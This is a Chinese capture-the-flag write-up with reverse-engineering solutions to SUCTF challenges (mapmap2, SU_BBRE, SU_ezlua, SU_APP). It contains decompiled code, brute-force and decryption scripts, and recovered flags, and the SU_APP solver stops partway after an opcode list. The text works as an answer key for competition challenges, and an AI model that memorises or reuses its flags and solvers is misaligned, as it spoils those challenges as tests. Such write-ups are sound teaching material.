



我想我大概，一辈子也忘不了 S1uM4i 吧。


<!--more-->


# 1. Reverse

## 1.1 mapmap2

主函数:

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  __int64 v4; // rbx
  __int64 v5; // rbx
  unsigned __int64 v6; // rax
  __int64 v7; // rax
  int result; // eax
  int v9; // [rsp+8h] [rbp-58h] BYREF
  int v10; // [rsp+Ch] [rbp-54h] BYREF
  __int64 pos; // [rsp+10h] [rbp-50h]
  unsigned __int64 i; // [rsp+18h] [rbp-48h]
  _BYTE path[40]; // [rsp+20h] [rbp-40h] BYREF
  unsigned __int64 v14; // [rsp+48h] [rbp-18h]

  v14 = __readfsqword(0x28u);
  sub_4047D2(argc, argv, envp);
  sub_4D6EF0(path);
  in(&stdin, path);
  pos = start_;
  if ( len(path) != 268 )
    wrong();
  for ( i = 0LL; ; ++i )
  {
    v6 = len(path);
    if ( i >= v6 )
      break;
    v3 = *get(path, i) - 97;
    if ( v3 > 0x16 || ((0x440009uLL >> v3) & 1) == 0 )
      wrong();
    v4 = pos;
    v9 = *get(path, i) >> 4;
    v5 = sub_4631C2(v4, &v9);
    v10 = *get(path, i) & 0xF;
    pos = *(_QWORD *)sub_4632EE(v5, &v10);
    if ( !pos )
      wrong();
  }
  if ( pos == target )
    v7 = out(&stdout, "SUCTF{md5(your input)}");
  else
    v7 = out(&stdout, "wrong");
  sub_4CF720(v7, sub_4D0510);
  sub_4D7000(path);
  result = 0;
  if ( v14 != __readfsqword(0x28u) )
    sub_591760();
  return result;
}
```

输入长度为0x10C 对字符有要求 遍历一下可见字符得到可以输入wasd

动调发现wasd分别对`pos`有影响 如果当前要走的方向是可以走的就会修改`pos`指向的地址 否则会回到原点`start_` 没有撞墙不动的分支 所以考虑直接爆破

为了方便爆破让每种不同的分支有不同的输出 patch掉长度判定和到达边界以及执行完后比较`pos`和`target`的部分成下面这样

原来的长度判定nop掉增加可用的用户代码段 再在此处插入判断是否回到原点 如果是直接输出`wrong`退出:


原先判定边界的地方改成判定是否回到原点:


因为要爆破所以长度肯定不够到达`target` 但是成功执行到判定`pos`是否到达`target`说明这条路是可以走的 输出`rong`

patch之后的逻辑:


至此可以使用下面的脚本爆破出到达终点的路径:

```Python
import subprocess, hashlib, time

def run(arg):
    proc = subprocess.Popen(['./mapmap2'], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    stdout, _ = proc.communicate(input=arg)
    print(f"[=]Testing {arg} -> {stdout[0]}")
    return stdout[0]

direction = ['w', 'a', 's', 'd'][::-1]
path = [0]

def check(path) -> list:
    path[-1] += 1
    if path[-1] == (path[-2] + 2) % 4:
        path[-1] += 1
    if path[-1] >= 4:
        path.pop()
        return check(path)
    return path

while True:
    p = ''.join([direction[i] for i in path])
    if len(p) > 0x10C:
        path.pop()
        path = check(path)
        continue
    res = run(p)
    match res:
        case 'w':
            path = check(path)
            continue
        case 'r':
            path.append(0)
            if path[-1] == (path[-2] + 2) % 4:
                path[-1] += 1
            continue
        case 'S':
            if len(path) == 0x10C:
                print('[+]Found: ' + p)
                print(f'[+]Flag: {hashlib.md5(p.encode()).hexdigest()}')
                break
            else:
                path.pop()
                continue
```

## 1.2 SU_BBRE

硬看汇编就好

main函数输入19位input，先进function2，用rc4加密比较前16位，然后通过funtion0栈溢出跳到function1，地址为0x40223d，得到长为9的第二个input，合并起来就是最终输入


```LaTeX
SUCTF{We1com3ToReWorld="@AndPWNT00}
```

## 1.3 SU_ezlua

改版lua虚拟机，改了string和code，需要解密

string:

```C
if ( n32[0] )
    {
      v5 = 0LL;
      do
      {
        *((_BYTE *)&str_ + v5) = __ROL1__(*((_BYTE *)&str_ + v5), 3);
        ++v5;
      }
      while ( n32[0] > v5 );
      l = n32[0] - 1;
    }
```

code:

```C
*v23 = (int)__ROL4__(_byteswap_ulong(v24 ^ 0x32547698), 15);
```

单独的loadint，类型枚举为63：

```C
*(double *)v23 = (double)(int)__ROL4__(_byteswap_ulong(v24 ^ 0x32547698), 15);
```

str_byte魔改了（异或偏移然后+35）：

```C
do
{
    v11 = v9 ^ *((_BYTE *)&retaddr + v9);
    ++v9;
    lua_pushinteger(L, (unsigned __int8)(v11 + 35));
}
while ( v10 != v9 );
```

修改luadec，根据反汇编结果得到加密过程：

```Python
def getbyte(R0, R1):
    return ((ord(R0[R1]) ^ R1) + 35) & 0xFF

def hexs(R0):
    R2 = ""
    R1 = "0123456789abcdef"
    for i in range(len(R0)):
        R2 += R1[(getbyte(R0, i) >> 4) & 0xF] + R1[getbyte(R0, i) & 0xF]
    return R2

def from_uint(R0):
    return chr(R0 & 0xFF) + chr((R0 >> 8) & 0xFF) + chr((R0 >> 16) & 0xFF) + chr((R0 >> 24) & 0xFF)

def to_uint(R0, R1 = 0):
    return getbyte(R0, R1) | (getbyte(R0, R1 + 1) << 8) | (getbyte(R0, R1 + 2) << 16) | (getbyte(R0, R1 + 3) << 24)

def rc4init(R0, R1):
    while len(R0) < 256:
        R0.append(0)
    for i in range(256):
        R0[i] = i
    R3 = 0
    for i in range(256):
        R3 = (R3 + R0[i] + getbyte(R1, i % len(R1))) & 0xFF
        R5 = R0[i]
        R0[i] = R0[R3]
        R0[R3] = R5

def rc4crypt(R0, R1):
    R7 = ""
    R2 = 0
    R3 = 0
    R8 = 0
    for i in range(len(R1)):
        R2 = (R2 + 1) & 0xFF
        R3 = (R3 + R0[R2]) % 256
        R5 = R0[R2]
        R0[R2] = R0[R3]
        R0[R3] = R5
        R13 = getbyte(R1, i)
        R14 = R0[R2] - R0[R3] if R0[R2] >= R0[R3] else 0x100 + R0[R2] - R0[R3]
        R14 = R0[R14]
        R6 = R13 ^ R14
        R7 += chr(R6)
        R3 = (R3 + R6) % 256
    return R7

def rc4(R0, R1):
    R2 = []
    rc4init(R2, R1)
    return rc4crypt(R2, R0)

def encrypt(R0, R1, R2):
    R6 = to_uint(R2, 0)
    R7 = to_uint(R2, 4)
    R8 = to_uint(R2, 8)
    R9 = to_uint(R2, 12)
    R4 = 305419896
    R5 = 0
    for i in range(32):
        R4 = to_uint(rc4(from_uint(R4), R2))
        R5 = (R5 + R4) & 0xFFFFFFFF
        R0 = (R0 + ((R1 + R5) ^ ((R1 << 4) + R6) ^ ((R1 >> 5) + R7))) & 0xFFFFFFFF
        R1 = (R1 + ((R0 + R5) ^ ((R0 << 4) + R8) ^ ((R0 >> 5) + R9))) & 0xFFFFFFFF
    return R0, R1

def check(R0):
    R2 = ""
    R3 = "thisshouldbeakey"
    R0 = rc4(R0, R3)
    for i in range(4):
        R4, R5 = encrypt(to_uint(R0, 8 * i),  to_uint(R0, 8 * i + 4), R3)
        R2 += from_uint(R4) + from_uint(R5)
    return hexs(R2) == "ac0c0027f0e4032acf7bd2c37b252a933091a06aeebc072c980fa62c24f486c6"

check("341528c2bde511efade200155d8503ef")
```

直接逆运算：

```Python
def getbyte(R0, R1):
    return ((ord(R0[R1]) ^ R1) + 35) & 0xFF

def from_uint(R0):
    return chr(R0 & 0xFF) + chr((R0 >> 8) & 0xFF) + chr((R0 >> 16) & 0xFF) + chr((R0 >> 24) & 0xFF)

def to_uint(R0, R1 = 0):
    return getbyte(R0, R1) | (getbyte(R0, R1 + 1) << 8) | (getbyte(R0, R1 + 2) << 16) | (getbyte(R0, R1 + 3) << 24)

def rc4init(R0, R1):
    while len(R0) < 256:
        R0.append(0)
    for i in range(256):
        R0[i] = i
    R3 = 0
    for i in range(256):
        R3 = (R3 + R0[i] + getbyte(R1, i % len(R1))) & 0xFF
        R5 = R0[i]
        R0[i] = R0[R3]
        R0[R3] = R5

def byte_dec(x, i):
    x = x - 35 if x >= 35 else 0x100 + x - 35
    return x ^ i

def decrypt(R0, R1, R2):
    r5_list = [3603410768, 3994032664, 1754214155, 794075743, 1976517078, 3471763126, 1957850369, 1599897197, 3784224572, 1802991924, 2794371991, 2014510171, 495317058, 2651527826, 1667027981, 2614829033, 2717182440, 2731507984, 4121469091, 4093031767, 3436801646, 1543785646, 2927475993, 2026297061, 2321426900, 497655852, 2200244399, 2694992467, 394628698, 1637983114, 3214985509, 3167109857]
    R6 = to_uint(R2, 0)
    R7 = to_uint(R2, 4)
    R8 = to_uint(R2, 8)
    R9 = to_uint(R2, 12)
    for i in range(32):
        R5 = r5_list[i]
        term = ((R0 + R5) ^ ((R0 << 4) + R8) ^ ((R0 >> 5) + R9)) & 0xFFFFFFFF
        R1 = R1 - term if R1 >= term else 0x100000000 + R1 - term
        term = ((R1 + R5) ^ ((R1 << 4) + R6) ^ ((R1 >> 5) + R7)) & 0xFFFFFFFF
        R0 = R0 - term if R0 >= term else 0x100000000 + R0 - term
    return R0, R1

def rc4decrypt(R0, R1):
    R7 = ""
    R2 = 0
    R3 = 0
    R8 = 0
    for i in range(len(R1)):
        R2 = (R2 + 1) & 0xFF
        R3 = (R3 + R0[R2]) % 256
        R5 = R0[R2]
        R0[R2] = R0[R3]
        R0[R3] = R5
        R13 = R1[i]
        R14 = R0[R2] - R0[R3] if R0[R2] >= R0[R3] else 0x100 + R0[R2] - R0[R3]
        R14 = R0[R14]
        R6 = R13 ^ R14
        R7 += chr(byte_dec(R6, i))
        R3 = (R3 + R13) % 256
    return R7

ans = "ac0c0027f0e4032acf7bd2c37b252a933091a06aeebc072c980fa62c24f486c6"
ans = [hex(byte_dec(int(ans[x:(x+2)], 16), x // 2))[2:].zfill(2) for x in range(0, 64, 2)]
ans = [int("".join(ans[x:(x+4)][::-1]), 16) for x in range(0, 32, 4)]
terms = ""
R3 = "thisshouldbeakey"
for i in range(4):
    R4, R5 = decrypt(ans[i * 2],  ans[i * 2 + 1], R3)
    terms += from_uint(R4) + from_uint(R5)

terms = [byte_dec(ord(terms[x]), x) for x in range(32)]
R2 = []
rc4init(R2, R3)
print("SUCTF{" + rc4decrypt(R2, terms) + "}")
#SUCTF{341528c2bde511efade200155d8503ef}
```

## 1.4 SU_APP

apk实现了一个动态链接器，把assets目录下的main二进制文件加载到内存然后执行。main最开始的x86部分是没用的，纯粹是幌子，在代码中将main加载后在0x91f0的file offset中加载真正执行的文件。


不过main中该偏移对应的header是错的，program header也是不对的。header和program header都在下方的函数中动态解密出来，直接动态取出然后patch回去即可


得到恢复header的main二进制文件后对算法进行分析

首先是init array函数的sbox初始化

84B0函数是换了常数的md5，直接将代码贴vs里面跑一遍然后取出输出就可以了

```Python
unsigned char fuck_long[64];
unsigned char Sbox[256];

char storedBytes[256];
int main()
{
    unsigned char result[] = { 0x01, 0x23, 0x45, 0x67, 0x89, 0xAB, 0xCD, 0xEF, 0xFE, 0xDC,
  0xBA, 0x98, 0x76, 0x54, 0x32, 0x10 };
    memset(fuck_long, 0, 64);
    fuck_long[0] = 'S';
    fuck_long[1] = 'U';
    fuck_long[2] = 'C';
    fuck_long[3] = 'T';
    fuck_long[4] = 'F';
    int* out = sub_84B0((int*)result, fuck_long);
    for (int i = 0; i < 4; ++i) { printf("%x,", out[i]); }
    putchar(10);
    memset(storedBytes, 0LL, 256LL);
    int v0;
    for (int i = 0; i <= 15; ++i)
    {
        if (i >= 0)
            v0 = i;
        else
            v0 = i + 3;
        storedBytes[i] = *((_DWORD*)&out + (v0 >> 2)) >> (8 * (i - (v0 & 0xFC)));
    }
    for (int j = 0; j <= 15; ++j)
        printf("%02x, ", storedBytes[j]);
    putchar(10);

    const char* v11 = "8951ef65e78ebfb773ca648a227d3f5b";
    for (int k = 0; k <= 255; ++k)
    {
        Sbox[k] = k;
    }
    int v5 = 0;
    for (int l = 0; l <= 255; ++l)
    {
        int v1 = v5 + Sbox[l] + v11[l % 32];
        int v2 = v1 + 255;
        if (v1 >= 0)
            v2 = v5 + Sbox[l] + v11[l % 32];
        v5 = v1 - (v2 & 0xFFFFFF00);
        unsigned int v4 = Sbox[l];
        Sbox[l] = Sbox[v5];
        Sbox[v5] = v4;
    }
    putchar(10);
    for (int j = 0; j <= 255; ++j)
        printf("0x%02x, ", Sbox[j]);
}
```

跑出来的结果，得到sbox

```Python
65ef5189,b7bf8ee7,8a64ca73,5b3f7d22,
48, fffffffb, ffffffef, fffffffe, ffffff95, 00, 00, 00, ffffffcc, ffffffcc, ffffffcc, ffffffcc, ffffffcc, ffffffcc, ffffffcc, ffffffcc,

0xd4, 0x72, 0xab, 0x2a, 0x46, 0x5f, 0xf8, 0xc3, 0x96, 0xd6, 0x32, 0xd7, 0x3d, 0x69, 0xd9, 0x64, 0xe1, 0x65, 0x41, 0x24, 0x03, 0xd8, 0x5c, 0xec, 0x7c, 0x73, 0xc4, 0x43, 0x8d, 0x26, 0x68, 0xdc, 0x3f, 0x2c, 0xe5, 0x39, 0x6b, 0x4d, 0x21, 0xf4, 0x4e, 0x85, 0xdd, 0x13, 0x8e, 0xb4, 0x3a, 0x11, 0xd0, 0xf9, 0xf3, 0x9e, 0xd1, 0x5d, 0x37, 0x61, 0x95, 0xea, 0x5b, 0x99, 0x9c, 0xb3, 0x07, 0x2e, 0x04, 0x0f, 0x89, 0x57, 0x5a, 0xa7, 0x4f, 0x82, 0x76, 0xa0, 0xe6, 0x63, 0xf1, 0x15, 0x3e, 0x1b, 0xfd, 0xc7, 0xa8, 0x31, 0x6a, 0xc6, 0x8b, 0xd5, 0x59, 0x6d, 0xe9, 0x87, 0x74, 0x05, 0x1e, 0xb1, 0x97, 0x0a, 0xce, 0x52, 0xb9, 0x8f, 0xe7, 0xac, 0x08, 0xa6, 0x16, 0xc2, 0xf2, 0x42, 0x9a, 0xfa, 0xe2, 0x86, 0x53, 0xff, 0x55, 0x23, 0x71, 0xb6, 0x44, 0xbd, 0x8a, 0xb2, 0x28, 0x54, 0xc8, 0xf0, 0x7a, 0x90, 0xa4, 0x7d, 0xd3, 0xdb, 0x1a, 0x22, 0x20, 0xb5, 0x83, 0xb0, 0xa1, 0xa5, 0x84, 0xb7, 0x06, 0x70, 0xaa, 0xbc, 0xda, 0x4b, 0x34, 0x67, 0xd2, 0x60, 0x00, 0xc5, 0x0d, 0x56, 0xa3, 0x98, 0x2d, 0x7f, 0x1d, 0x3b, 0xaf, 0xe3, 0x7b, 0x93, 0x7e, 0x6f, 0x6c, 0xa9, 0x36, 0xde, 0xbe, 0xc9, 0x02, 0x48, 0x8c, 0xe8, 0xfe, 0x62, 0x3c, 0xca, 0x33, 0xfc, 0xdf, 0xee, 0x40, 0xf5, 0xcb, 0x47, 0x79, 0x0b, 0x2b, 0x29, 0x94, 0xcd, 0xba, 0x51, 0xae, 0x58, 0x12, 0x14, 0x88, 0xeb, 0x9b, 0x77, 0x1c, 0x27, 0xe0, 0x4c, 0x38, 0x91, 0x49, 0xcc, 0xa2, 0xc1, 0x25, 0xcf, 0xf7, 0x9d, 0x2f, 0xc0, 0x45, 0x17, 0x35, 0x92, 0x9f, 0x4a, 0x78, 0x66, 0xf6, 0x5e, 0xfb, 0xbb, 0x10, 0x81, 0x01, 0x0e, 0x6e, 0x09, 0xb8, 0x18, 0x50, 0xad, 0xe4, 0x30, 0x80, 0x75, 0xef, 0xed, 0x19, 0xbf, 0x0c, 0x1f
```

看check函数，输入长度32，用sbox生成虚拟机的idx，参数，然后用idx去找执行的函数，然后传入参数。用的是libffi库，最后执行的是ffi_call函数，简单理解成虚拟机入口就行了。不同的v4对应的是不同的参数数目。注意一下就行了



dump出反编译后的伪c代码，批量改写成python的函数形式，然后z3解一下即可

```Python
import inspect
from z3 import *
import time
import numpy as np

cipher = [
    0x000D7765, 0x00011EBD, 0x00032D12, 0x00013778, 0x0008A428, 0x0000B592, 0x0003FA57, 0x00001616,
    0x0003659E, 0x0002483A, 0x00002882, 0x000508F4, 0x00000BAD, 0x00027920, 0x0000F821, 0x00019F83,
    0x00000F97, 0x00033904, 0x000170D5, 0x0000016C, 0x0000CF5D, 0x000280D2, 0x000A8ADE, 0x00009EAA,
    0x00009DAB, 0x0001F45E, 0x00003214, 0x000052FA, 0x0006D57A, 0x000460ED, 0x000124FF, 0x00013936
]  # fmt: skip


opcode_list = [
    0x000000000000A224, 0x0000000000000002, 0x000000000000A264, 0x0000000000000003,
    0x000000000000A2B0, 0x0000000000000002, 0x000000000000A2F0, 0x0000000000000003,
    0x000000000000A33C, 0x0000000000000001, 0x000000000000A370, 0x0000000000000003,
    0x000000000000A3BC, 0x0000000000000002, 0x000000000000A3FC, 0x0000000000000002,
    0x000000000000A43C, 0x0000000000000002, 0x000000000000A47C, 0x0000000000000001,
    0x000000000000A4B0, 0x0000000000000001, 0x000000000000A4E4, 0x0000000000000002,
    0x000000000000A524, 0x0000000000000002, 0x000000000000A564, 0x0000000000000002,
    0x000000000000A5A4, 0x0000000000000001, 0x000000000000A5D8, 0x0000000000000002,
    0x000000000000A618, 0x0000000000000001, 0x000000000000A64C, 0x0000000000000001,
    0x000000000000A680, 0x0000000000000003, 0x000000000000A6CC, 0x0000000000000001,
    0x000000000000A700, 0x0000000000000003, 0x000000000000A74C, 0x0000000000000002,
    0x000000000000A78C, 0x0000000000000001, 0x000000000000A7C0, 0x0000000000000001,
    0x000000000000A7F4, 0x0000000000000003, 0x000000000000A840, 0x0000000000000001,
    0x000000000000A874, 0x0000000000000002, 0x000000000000A8B4, 0x0000000000000003,
    0x000000000000A900, 0x0000000000000002, 0x000000000000A940, 0x0000000000000002,
    0x000000000000A980, 0x0000000000000001, 0x000000000000A9B4, 0x0000000000000001,
    0x000000000000A9E8, 0x0000000000000001, 0x000000000000AA1C, 0x0000000000000001,
    0x000000000000AA50, 0x0000000000000003, 0x000000000000AA9C, 0x0000000000000001,
    0x000000000000AAD0, 0x0000000000000001, 0x000000000000AB04, 0x0000000000000001,
    0x000000000000AB38, 0x0000000000000003, 0x000000000000AB84, 0x0000000000000002,
    0x000000000000ABC4, 0x0000000000000003, 0x000000000000AC10, 0x0000000000000003,
    0x000000000000AC5C, 0x0000000000000003, 0x000000000000ACA8, 0x0000000000000001,
    0x000000000000ACDC, 0x0000000000000002, 0x000000000000AD1C, 0x0000000000000001,
    0x000000000000AD50, 0x0000000000000002, 0x000000000000AD90, 0x0000000000000002,
    0x000000000000ADD0, 0x0000000000000002, 0x000000000000AE10, 0x0000000000000003,
    0x000000000000AE5C, 0x0000000000000002, 0x000000000000AE9C, 0x0000000000000002,
    0x000000000000AEDC, 0x0000000000000003, 0x000000000000AF28, 0x0000000000000002,
    0x000000000000AF68, 0x0000000000000002, 0x000000000000AFA8, 0x0000000000000002,
    0x000000000000AFE8, 0x0000000000000001, 0x000000000000B01C, 0x0000000000000002,
    0x000000000000B05C, 0x0000000000000003, 0x000000000000B0A8, 0x0000000000000001,
    0x000000000000B0DC, 0x0000000000000002, 0x000000000000B11C, 0x0000000000000003,
    0x000000000000B168, 0x0000000000000002, 0x000000000000B1A8, 0x0000000000000002,
    0x000000000000B1E8, 0x0000000000000003, 0x000000000000B234, 0x0000000000000002,
    0x000000000000B274, 0x0000000000000003, 0x000000000000B2C0, 0x0000000000000001,
    0x000000000000B2F4, 0x0000000000000001, 0x000000000000B328, 0x0000000000000001,
    0x000000000000B35C, 0x0000000000000003, 0x000000000000B3A8, 0x0000000000000003,
    0x000000000000B3F4, 0x0000000000000002, 0x000000000000B434, 0x0000000000000003,
    0x000000000000B480, 0x0000000000000002, 0x000000000000B4C0, 0x0000000000000003,
    0x000000000000B50C, 0x0000000000000002, 0x000000000000B54C, 0x0000000000000002,
    0x000000000000B58C, 0x0000000000000001, 0x000000000000B5C0, 0x0000000000000001,
    0x000000000000B5F4, 0x0000000000000002, 0x000000000000B634, 0x0000000000000002,
    0x000000000000B674, 0x0000000000000003, 0x000000000000B6C0, 0x0000000000000003,
    0x000000000000B70C, 0x0000000000000003, 0x000000000000B758, 0x0000000000000002,
    0x000000000000B798, 0x0000000000000003, 0x000000000000B7E4, 0x0000000000000003,
    0x000000000000B830, 0x0000000000000002, 0x000000000000B870, 0x0000000000000002,
    0x000000000000B8B0, 0x0000000000000002, 0x000000000000B8F0, 0x0000000000000003,
    0x000000000000B93C, 0x0000000000000001, 0x000000000000B970, 0x0000000000000003,
    0x000000000000B9BC, 0x0000000000000002, 0x000000000000B9FC, 0x0000000000000003,
    0x000000000000BA48, 0x0000000000000001, 0x000000000000BA7C, 0x0000000000000002,
    0x000000000000BABC, 0x0000000000000002, 0x000000000000BAFC, 0x0000000000000001,
    0x000000000000BB30, 0x0000000000000001, 0x000000000000BB64, 0x0000000000000001,
    0x000000000000BB98, 0x0000000000000003, 0x000000000000BBE4, 0x0000000000000001,
    0x000000000000BC18, 0x0000000000000003, 0x000000000000BC64, 0x0000000000000003,
    0x000000000000BCB0, 0x0000000000000002, 0x000000000000BCF0, 0x0000000000000001,
    0x000000000000BD24, 0x0000000000000002, 0x000000000000BD64, 0x0000000000000003,
    0x000000000000BDB0, 0x0000000000000003, 0x000000000000BDFC, 0x0000000000000001,
    0x000000000000BE30, 0x0000000000000001, 0x000000000000BE64, 0x0000000000000002,
    0x000000000000BEA4, 0x0000000000000001, 0x000000000000BED8, 0x0000000000000001,
    0x000000000000BF0C, 0x0000000000000001, 0x000000000000BF40, 0x0000000000000001,
    0x000000000000BF74, 0x0000000000000002, 0x000000000000BFB4, 0x0000000000000002,
    0x000000000000BFF4, 0x0000000000000002, 0x000000000000C034, 0x0000000000000002,
    0x000000000000C074, 0x0000000000000002, 0x000000000000C0B4, 0x0000000000000001,
    0x000000000000C0E8, 0x0000000000000003, 0x000000000000C134, 0x0000000000000002,
    0x000000000000C174, 0x0000000000000002, 0x000000000000C1B4, 0x0000000000000002,
    0x000000000000C1F4, 0x0000000000000003, 0x000000000000C240, 0x0000000000000001,
    0x000000000000C274, 0x0000000000000003, 0x000000000000C2C0, 0x0000000000000001,
    0x000000000000C2F4, 0x0000000000000003, 0x000000000000C340, 0x0000000000000002,
    0x000000000000C380, 0x0000000000000003, 0x000000000000C3CC, 0x0000000000000001,
    0x000000000000C400, 0x0000000000000003, 0x000000000000C44C, 0x0000000000000003,
    0x000000000000C498, 0x0000000000000001, 0x000000000000C4CC, 0x0000000000000001,
    0x000000000000C500, 0x0000000000000003, 0x000000000000C54C, 0x0000000000000003,
    0x000000000000C598, 0x0000000000000002, 0x000000000000C5D8, 0x0000000000000001,
    0x000000000000C60C, 0x0000000000000002, 0x000000000000C64C, 0x0000000000000002,
    0x000000000000C68C, 0x0000000000000003, 0x000000000000C6D8, 0x0000000000000001,
    0x000000000000C70C, 0x0000000000000002, 0x000000000000C74C, 0x0000000000000001,
    0x000000000000C780, 0x0000000000000001, 0x000000000000C7B4, 0x0000000000000002,
    0x000000000000C7F4, 0x0000000000000003, 0x000000000000C840, 0x0000000000000003,
    0x000000000000C88C, 0x0000000000000003, 0x000000000000C8D8, 0x0000000000000003,
    0x000000000000C924, 0x0000000000000001, 0x000000000000C958, 0x0000000000000003,
    0x000000000000C9A4, 0x0000000000000001, 0x000000000000C9D8, 0x0000000000000001,
    0x000000000000CA0C, 0x0000000000000001, 0x000000000000CA40, 0x0000000000000002,
    0x000000000000CA80, 0x0000000000000002, 0x000000000000CAC0, 0x0000000000000001,
    0x000000000000CAF4, 0x0000000000000001, 0x000000000000CB28, 0x0000000000000001,
    0x000000000000CB5C, 0x0000000000000002, 0x000000000000CB9C, 0x0000000000000001,
    0x000000000000CBD0, 0x0000000000000001, 0x000000000000CC04, 0x0000000000000001,
    0x000000000000CC38, 0x0000000000000002, 0x000000000000CC78, 0x0000000000000002,
    0x000000000000CCB8, 0x0000000000000001, 0x000000000000CCEC, 0x0000000000000001,
    0x000000000000CD20, 0x0000000000000003, 0x000000000000CD6C, 0x0000000000000001,
    0x000000000000CDA0, 0x0000000000000003, 0x000000000000CDEC, 0x0000000000000002,
    0x000000000000CE2C, 0x0000000000000001, 0x000000000000CE60, 0x0000000000000003,
    0x000000000000CEAC, 0x0000000000000001, 0x000000000000CEE0, 0x0000000000000002,
    0x000000000000CF20, 0x0000000000000002, 0x000000000000CF60, 0x0000000000000002,
    0x000000000000CFA0, 0x0000000000000003, 0x000000000000CFEC, 0x0000000000000002,
    0x000000000000D02C, 0x0000000000000003, 0x000000000000D078, 0x0000000000000003,
    0x000000000000D0C4, 0x0000000000000001, 0x000000000000D0F8, 0x0000000000000003,
    0x000000000000D144, 0x0000000000000003, 0x000000000000D190, 0x0000000000000001,
    0x000000000000D1C4, 0x0000000000000002, 0x000000000000D204, 0x0000000000000002,
    0x000000000000D244, 0x0000000000000001, 0x000000000000D278, 0x0000000000000001,
    0x000000000000D2AC, 0x0000000000000003, 0x000000000000D2F8, 0x0000000000000002,
    0x000000000000D338, 0x0000000000000002, 0x000000000000D378, 0x0000000000000002,
    0x000000000000D3B8, 0x0000000000000003, 0x000000000000D404, 0x0000000000000003,
    0x000000000000D450, 0x0000000000000003, 0x000000000000D49C, 0x0000000000000002,
    0x000000000000D4DC, 0x0000000000000001, 0x000000000000D510, 0x0000000000000001,
    0x000000000000D544, 0x0000000000000003, 0x000000000000D590, 0x0000000000000003,
    0x000000000000D5DC, 0x0000000000000002, 0x000000000000D61C, 0x0000000000000003,
    0x000000000000D668, 0x0000000000000002, 0x000000000000D6A8, 0x0000000000000001,
    0x000000000000D6DC, 0x0000000000000001, 0x000000000000D710, 0x0000000000000003,
    0x000000000000D75C, 0x0000000000000003, 0x000000000000D7A8, 0x0000000000000002,
    0x000000000000D7E8, 0x0000000000000003, 0x000000000000D834, 0x0000000000000003,
    0x000000000000D880, 0x0000000000000002, 0x000000000000D8C0, 0x0000000000000002,
    0x000000000000D900, 0x0000000000000003, 0x000000000000D94C, 0x0000000000000002,
    0x000000000000D98C, 0x0000000000000002, 0x000000000000D9CC, 0x0000000000000003,
    0x000000000000DA18, 0x0000000000000003, 0x000000000000DA64, 0x0000000000000003,
    0x000000000000DAB0, 0x0000000000000002, 0x000000000000DAF0, 0x0000000000000001,
    0x000000000000DB24, 0x0000000000000001, 0x000000000000DB58, 0x0000000000000001,
    0x000000000000DB8C, 0x0000000000000002, 0x000000000000DBCC, 0x0000000000000003,
    0x000000000000DC18, 0x0000000000000003, 0x000000000000DC64, 0x0000000000000002,
    0x000000000000DCA4, 0x0000000000000001, 0x000000000000DCD8, 0x0000000000000001,
    0x000000000000DD0C, 0x0000000000000002, 0x000000000000DD4C, 0x0000000000000003,
    0x000000000000DD98, 0x0000000000000002, 0x000000000000DDD8, 0x0000000000000003,
    0x000000000000DE24, 0x0000000000000002, 0x000000000000DE64, 0x0000000000000001,
    0x000000000000DE98, 0x0000000000000002, 0x000000000000DED8, 0x0000000000000003,
    0x000000000000DF24, 0x0000000000000002, 0x000000000000DF64, 0x0000000000000001,
    0x000000000000DF98, 0x0000000000000003, 0x000000000000DFE4, 0x0000000000000002,
    0x000000000000E024, 0x0000000000000002, 0x000000000000E064, 0x0000000000000001,
    0x000000000000E098, 0x0000000000000001, 0x000000000000E0CC, 0x0000000000000001,
    0x000000000000E100, 0x0000000000000002, 0x000000000000E140, 0x0000000000000002,
    0x000000000000E180, 0x0000000000000001, 0x000000000000E1B4, 0x0000000000000003
]  # fmt: skip


